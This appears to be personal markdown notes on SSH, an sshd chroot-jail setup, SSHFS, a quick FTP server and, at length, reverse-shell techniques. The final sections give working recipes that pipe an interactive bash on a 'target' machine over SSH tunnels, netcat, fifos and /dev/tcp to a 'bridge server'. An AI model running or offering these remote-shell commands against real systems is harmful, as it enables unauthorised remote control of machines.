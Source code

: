 ## SSH

- `-X`  Enables X11 (display) forwarding. (But this allows an attacker to listen to my keystrokes.)
- create a pipe between machines

## SSHD

### chroot jail

I set up the following in `/etc/ssh/sshd_config`
```
Match Group chrootjail
	ChrootDirectory /var/chrootjail/
	PasswordAuthentication no
	AuthorizedKeysFile /var/chrootjail/home/%u/.ssh/authorized_keys
```

To make the jail have an interface, though, I needed to copy `/bin/bash` into the jail and also its dependencies, which are given from `ldd /bin/bash`.

I also had to create the `/var/chrootjail/home` directory and create a user and set his home directory and set his group membership.

In `/etc/passwd`, I use the usual paths: 
```
jailed-user:x:1007:1009::/home/jailed-user:/bin/bash
```
...but I created the `home` directory and its contents in `/var/chrootjail`. (The home dirs themselves are owned by the users and have permissions `0700`.) (Don't forget to add the user to the `chrootjail` group, since I'm using a group-based rule.)

## SSHFS

```bash
# Mount a remote directory:
sshfs ${user}@${host}:${path} $mydir
# "path" can be absolute or relative to the user's $HOME
# "user@host" can be an alias from .ssh/config
# "mydir" should be an empty local directory

# Unmount the directory:
fusermount -u $mydir 
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTU5NjA3ODU5LC04NDIxMjMzMzgsMTcyMT
I5MDgzMF19
-->

## FTP

```bash
python -m pyftpdlib [--help]
python -m pyftpdlib -w -u <uname> -P <pass>
```

## Reverse Shell
### With SSH tunnels
First, start listening on the server:
```bash
nc -l -k localhost 8889
```
Then on the target machine:
```bash
# Open SSH tunnel
ssh -N -L 8889:localhost:8889 qa -f # local -> remote
# Start shell
sudo bash -c 'bash -i >& /dev/tcp/127.0.0.1/8889 0>&1'
```
### Echo only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
nc -l localhost 8888
# bridge server
nc localhost 8888 # Then enter text
```
## Execute only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l localhost 8888 >nci
# target terminal C
/bin/bash -i 0<nci
# brige server
nc localhost 8888 # then type commands, whose output appears on target:C
```
## Echo on bridge only
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# bridge server A
nc -l -k localhost 8889
# target terminal B
nc localhost 8889 # then type text which appears in bridge:A
```
...with a fifo:
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# target terminal A
mkfifo nco
nc localhost 8889 <nco
# bridge server A
nc -l -k localhost 8889
# target terminal B
echo foo > nco # This only works for the first echo. Why?
```
## Execute and echo back
```bash
# target terminal F
ssh -N -L 8889:localhost:8889 qa
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l -k localhost 8888 >nci
# target terminal C
mkfifo nco
nc localhost 8889 <nco
# target terminal D
/bin/bash -i 0<nci >nco
# bridge server A
nc localhost 8888 # then enter commands, whose output will appear on bridge:B
# bridge server B
nc -l localhost 8889
```
